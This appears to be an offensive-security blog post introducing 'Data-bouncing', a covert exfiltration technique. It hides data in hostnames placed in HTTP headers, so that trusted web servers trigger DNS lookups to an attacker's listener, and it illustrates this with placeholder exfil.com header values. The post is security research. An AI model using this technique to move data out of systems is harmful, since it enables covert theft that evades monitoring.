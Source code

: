 
Authors:
https://thecontractor.io/data-bouncing/




- [Home](https://thecontractor.io/)
- [Posts](https://thecontractor.io/posts/)
- [Support](https://thecontractor.io/support/)
- [LinkedIn](https://www.linkedin.com/in/j-c-114091a1/)
- [Q&A](https://thecontractor.io/QAA/)

![](https://thecontractor.io/content/images/size/w1200/2023/10/Screenshot-2023-10-10-at-13.37.38.png)

[OFFSEC](https://thecontractor.io/tag/offsec/)

# Data-bouncing

Published Sep 11, 2023

Data-Bouncing - The art of indirect exfiltration. Using & Abusing Trusted Domains as a 2nd Order Transport.

For this to make sense you will need to know some DNS and Web-application principles.

## TL;DR

If you CBA TL;DR hit the Weegiecast link above, it's about an hour (or the Spotify link [here](https://open.spotify.com/episode/1AQO1gGScsicBbiITOcC9W?si=FKLBnUj3QCapiyOKsBGAwQ&ref=thecontractor.io))

### Using DNS to perform covert transfer or communication isn't new, but we have new approaches that offer significant benefits and consequences through novel means by way of soliciting Hostname lookups  

### For example: by directing web requests to certain domains that process hostnames in headers, you can relay small pieces of data to your DNS listener, allowing you to collect and reconstruct data, be it strings, files, or anything else.  
  
- there are more ways, this example is the most obvious we will show.  

Exfil SystemTrusted WebserversDNS Server - Exfil Data CollectionHTTP Requests, to high integrity domainsHeaders: Host: secretmessage1.exfil.comHeaders: X-Forward-For: secretmessage2.exfil.comHeaders: Referer: secretmessage3.exfil.comClient delivered headers processed by trusted webserverHeaders: Host: secretmessage1.exfil.comHeaders: X-Forward-For: secretmessage2.exfil.comHeaders: Referer: secretmessage3.exfil.comLookup secretmessage1.exfil.comExfiltration Data ReceivedIP for secretmessage1.exfil.comLookup secretmessage2.exfil.comExfiltration Data ReceivedIP for secretmessage2.exfil.comLookup secretmessage3.exfil.comExfiltration Data ReceivedIP for secretmessage3.exfil.comalt[Hostname Lookup Solicitation]Exfil SystemTrusted WebserversDNS Server - Exfil Data Collection

Numerous domains, including high-reputation ones, process hostnames in web headers and other application functionality such as email addresses, domain security, web preview fetches and health checking. These requests often appear as normal traffic, making it hard to identify them unless one is familiar with this method or can ascertain its intent.  Exploiting headers appears to be the simplest and most evident, that's what we will demonstrate. We will also demonstrate how to identify Data-Bounce candidates and guide you on how to take advantage of this technique by transmitting files/data. If you delve into Dave's post, you'll gain insights on this method when applied to C2.
